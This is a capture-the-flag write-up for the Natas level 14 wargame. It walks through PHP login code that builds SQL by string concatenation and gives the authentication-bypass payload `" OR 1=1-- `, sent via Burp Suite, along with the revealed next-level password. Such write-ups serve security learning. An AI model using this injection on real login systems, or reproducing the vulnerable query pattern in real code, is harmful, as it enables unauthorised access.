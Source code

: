# Level 14

## Software used
- Google Chrome + FoxyProxy
- Burpsuite Community
- [onlinephp.io](https://onlinephp.io/)

## Hint

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```

## Solution

As always let's break down the sourcecode.  
[$\_REQUEST](https://www.php.net/manual/en/reserved.variables.request.php): An associative array that by default contains the contents of $\_GET, $\_POST and $\_COOKIE.  
[mysqli_connect](https://www.php.net/manual/en/function.mysqli-connect.php): This function is an alias of: [mysqli::\_\_construct()](https://www.php.net/manual/en/mysqli.construct.php)  
[mysqli_select_db](https://www.php.net/manual/en/mysqli.select-db.php):  Selects the default database for database queries

```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');
```

If key 'username' exists in $\_REQUEST, then create a variable $link which is a representation of a connection to a MySQL database.  
Its values are hostname, username, password.  
As last step the php built-in function mysqli_select_db() is used to select the databse 'natas14'.  

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
The next step, the variable $query is declared which contains a SELECT query for MySQL
```php
<?php

$array = array(
	
	"username" => "natas14",
	"password" => "fakepassword"
);

$query = "SELECT * from users where username=\"".$array["username"]."\" and password=\"".$array["password"]."\"";

echo $query

?>
```
> SELECT * from users where username="natas14" and password="fakepassword"


```php
if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```
[mysqli_num_rows](https://www.php.net/manual/en/mysqli-result.num-rows.php): Gets the number of rows in the result set  
[mysqli_close](https://www.php.net/manual/en/mysqli.close.php): Closes a previously opened database connection
If key 'debug' exists in $\_GET, prints back the message executing query.  
If the number of rows returned from the database query is greater than 0, then prints back the message containing the password for natas15, otherwise prints back the error message 'Access denied'.  
Close the connection to the dataase.



Payload to inject: `" OR 1=1-- `

```php
<?php

$array = array(
	
	"username" => 'natas14',
	"password" => '" OR 1=1-- ',
);

$query = "SELECT * from users where username=\"".$array["username"]."\" and password=\"".$array["password"]."\"";

echo $query

?>
```
> SELECT * from users where username="natas14" and password="" OR 1=1-- "  

Since 1=1 is always True, even if the password is wrong or empty the whole query results to be True and the application executes correctly.  
Sending payload within Burpsuite requires the payload to be urlencoded:  

<img src="https://github.com/jupitersinsight/writeups/assets/110602224/6afcba5f-1792-4e4e-b2e7-a2dc062ec4b4" widht=900 height=auto>

The password for natas15 is: **TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB**

